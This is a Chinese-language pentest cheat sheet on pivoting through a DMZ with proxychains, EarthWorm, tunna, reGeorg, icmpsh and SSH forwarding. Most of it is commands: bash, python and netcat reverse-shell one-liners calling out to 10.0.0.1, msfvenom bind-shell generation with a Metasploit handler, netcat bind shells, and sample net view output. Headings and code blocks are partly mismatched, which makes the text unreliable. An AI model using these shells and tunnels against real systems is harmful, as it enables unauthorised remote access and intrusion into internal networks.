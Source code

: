 然后在命令前加 proxychains 就进行了代理

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjXRFQ6zhpt2wjUGQ82jDfMX4icqlkCiaCaPyfWbyQAHE5gD4wDHWJ84vg/640?wx_fmt=png)

神器推荐（http://rootkiter.com/EarthWorm/）跨平台 + 端口转发 + socket 代理结合体！  

**基于 http 的转发与 socket 代理 (低权限下的渗透) 如果目标是在 dmz 里面，数据除了 web 其他出不来，便可以利用 http 进行** 

1、端口转发 tunna

```
1、bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

2、python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'

3、rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

2、socks 代理 reGeorg

```
http://wiki.wooyun.org/pentest:%E5%90%84%E7%A7%8D%E8%AF%AD%E8%A8%80%E4%B8%80%E5%8F%A5%E8%AF%9D%E5%8F%8D%E5%BC%B9shell
```

```
icmpsh.exe -t kali\_ip -d 500 -b 30 -s 128
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjnia8fV5RA2BSKH18pdCdjX9I9F8Ch0V5x693lvqiaWNavrBvKEUwvCqw/640?wx_fmt=png)

**ssh 通道（http://staff.washington.edu/corey/fw/ssh-port-forwarding.html）**

1、端口转发  

```
1、msfvenom -p windows/x64/shell/bind\_tcp LPORT=12345 -f exe -o ./shell.exe
先生成一个bind\_shell

2、本地利用tunna工具进行端口转发
python proxy.py -u http://lemon.com/conn.jsp  -l 1111 -r 12345 v

3、
use exploit/multi/handler
set payload windows/x64/shell/bind\_tcp
set LPORT 1111
set RHOST 127.0.0.1
```

```
1、nc -e /bin/sh -lp 1234

2、nc.exe -e cmd.exe -lp 1234
```

```
C:\\Documents and Settings\\Administrator\\Desktop>net view
Server Name            Remark

-----------------------------------------------------------------------------
\\\\DC1
\\\\DM-WINXP
\\\\DM\_WIN03
The command completed successfully.
```
